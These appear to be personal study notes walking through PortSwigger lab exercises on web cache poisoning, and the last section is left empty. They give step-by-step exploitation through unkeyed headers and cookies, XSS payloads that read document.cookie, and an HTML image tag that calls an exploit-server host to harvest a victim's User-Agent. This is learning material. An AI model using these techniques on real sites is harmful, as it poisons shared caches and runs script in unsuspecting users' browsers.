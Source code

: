 # Web Cache Poisoning Notes

[Portswigger](https://portswigger.net/web-security/web-cache-poisoning)

## Methodology

- use a cache buster parameter to avoid poisoning arbitrary users: `?cache=1234`
- send request of main page until you see a `X-Cache: hit` or `X-Cache: miss` - this means caching is happening

## Labs walkthrough

### Web cache poisoning with an unkeyed header

Background: 

```This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser. ```

- go to the sites home page
- study the requests and responses that you generated, find the `GET` request for the home page and send it to repeater
- add a cache buster query parameter such as `?cb=1234`
- add the `X-Forwarded-Host` header with an arbitrary hostname such as `example.com` and send the request
- observe the `X-Forwarded-Host` header has been used to dynamically generate an absolute URL for importing a JavaScript file stored at `/resources/js/tracking.js`
- replay the request and observe that the response contains the `X-Cache: hit`, this tells us that the response came from the cache
- go to the exploit server and change the file name to match the path used by the vulnerable path `/resource/js/tracking.js`
- in the body enter the payload `alert(document.cookie)` and store it
- in repeater remove the cache buster and add the exploit server to the `X-Forwarded-Host` header
- send the malicious request, keep replaying the request until you see your exploit server URL being reflected in the response and `X-Cache: hit` in the headers
- to simulate the victim, load the poisoned URL in the browser and make sure that the `alert()` is triggered, note that you have to perform this test before the cache expires which is every 30 seconds

### Web cache poisoning with an unkeyed cookie

Background: 
```This lab is vulnerable to web cache poisoning because cookies aren't included in the cache key. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes alert(1) in the visitor's browser.```

- go to the sites home page
- Notice that the first response you received sets the cookie `fehost=prod-cache-01`
- Reload the home page and observe that the value from the fehost cookie is reflected inside a double-quoted JavaScript object in the response
- send this to repeater and add a cache buster as a query parameter
- change the cookie to some arbitrary value and resend and observe it being reflected in the reponse
- now put a payload in the cookie like so: `fehost=someString"-alert(1)-"someString`
- Replay the request until you see the payload in the response and X-Cache: hit in the headers
- Load the URL in the browser and confirm the alert() fires
- now go back to repeater and remove the cache buster and redeliver

### Web cache poisoning with multiple headers

Background:

```This lab contains a web cache poisoning vulnerability that is only exploitable when you use multiple headers to craft a malicious request. A user visits the home page roughly once a minute. To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser.```

- go to the sites home page
- in burps history find the GET request for the JavaScript file `/resources/js/tracking.js` and send to repeater
- add a cache-buster query parameter and the `X-Forwarded-Host` header with a random value, we come to the conclusion it doesn't do anything
- remove the `X-Forwarded-Host` header and add the `X-Forwarded-Scheme` header instead, notice that any value other than `HTTPS` gets a `302` response, notice in the `Location` header we are being redirected to the same URL that we requested but using `https://`
- add the `X-Forwarded-Host: example.com` header back to the request but keep the `X-Forwarded-Scheme: nothttps` as well, this time we notice that the `Location` header of the `302` redirect now points to `https://example.com/`
- go to the exploit server and change the file name to match the path used by the vulnerable response: `/resources/js/tracking.js`
- in the body enter the payload `alert(document.cookie)` and store it
- go back to the request in repeater and set the `X-Forwarded-Host` header with the exploit servers URL as the value
- set the `X-Forwarded-Scheme` header to anything but `HTTPS` so you get the redirect
- send the request until you see your exploit server URL reflected in the response and `X-Cache: hit` in the headers
- to validate that this worked, right click the request in repeater and do the `Copy URL` and open in the browser, if the alert exists in here than it worked (the alert won't actually fire here)
- go back to repeater, remove the cache buster and resend the request until you poison the cache again
- reload the home page until your alert triggers, then poison again until the user visits

### Targeted web cache poisoning using an unknown header

Background: 

```A victim user will view any comments that you post. To solve this lab, you need to poison the cache with a response that executes alert(document.cookie) in the visitor's browser. However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs. ```

- go to the sites home page
- in burps history find the `GET` of the homepage and right-click it and in extensions use `Param Miner` with the `Guess headers` option, param miner will report back about a secret input in the form of `X-Host` header
- send this request to repeater and add a cache-buster query parameter
- add the `X-Host` header with an arbitrary hostname such as `example.com`, observe that the value of this header is used to dunamically generate a URL for importing the JavaScript file stored at `/resources/js/tracking.js`
- go to the exploit server and change the file name to match the path used by the vulnerable response `/resources/js/tracking.js`
-  In the body, enter the payload `alert(document.cookie)` and store it
-  add exploit server to the `X-Host` header and send it until you see the exploit server in the response and the `X-Cache: hit` header
-  load the URL in the browser and validate the alert triggers
-  notice that the `Vary` header is used to specify that the `User-Agent` is part of the cache key, we need to find the victims `User-Agent` to target them
-  in the website a comment functionality accepts HTML tags, post a comment with the exploit server to grab the users `User-Agent` with somehting like:  `<img src="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/foo" />`
-  open access log on exploit server and check until you get the users `User-Agent`
-  place the victims `User-Agent` into your repeater request, remove your cache buster and send it again until you poison with the exploit server URL in the response and it having the `X-Cache: hit` header as well

### Web cache poisoning via an unkeyed query string

Background: 

```

```











